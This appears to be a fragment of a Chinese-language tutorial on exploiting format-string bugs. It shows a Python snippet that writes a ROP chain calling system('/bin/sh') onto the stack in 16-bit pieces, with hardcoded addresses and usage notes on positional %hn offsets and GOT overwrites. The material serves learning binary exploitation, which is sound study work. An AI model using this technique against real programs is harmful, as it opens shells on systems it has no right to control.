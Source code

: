 ```python
例如：
stack_ret = 0x7ffd0bb6f408
pop_rdi = 0x400bc3
input1 = p64(pop_rdi) + p64(stack_ret+24) + p64(system_addr) + '/bin/sh\0'.ljust(8)
for i in range(0,len(input1)/8,1):
	fsb_write(stack_ret+i*8,u64(input1[i*8:(i+1)*8]))
```

>使用方法
1. 该种方法是一次只修改16bit数据，故需要多次触发fsb漏洞才能利用成功
2. 首先需要在栈上找到以下'三级跳'结构：即设该栈地址存储的内容为x，则y要求x本身和x所指向的地址均在栈上
  ![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2018-1-6-fsb_summary/2.png)

>确定上图中'1'是第几个参数，'2'是第几个参数，如图中：
>   1 --> 栈上第24个参数 --> %29$hn
>   2 --> 栈上第27个参数 --> %32$hn

3. 修改代码红色部分为对应的数字： 29，32
4. 如果是修改其他函数（假定为func_x）的got表从而间接调用printf函数，则代码中printf函数应该修改为func_x

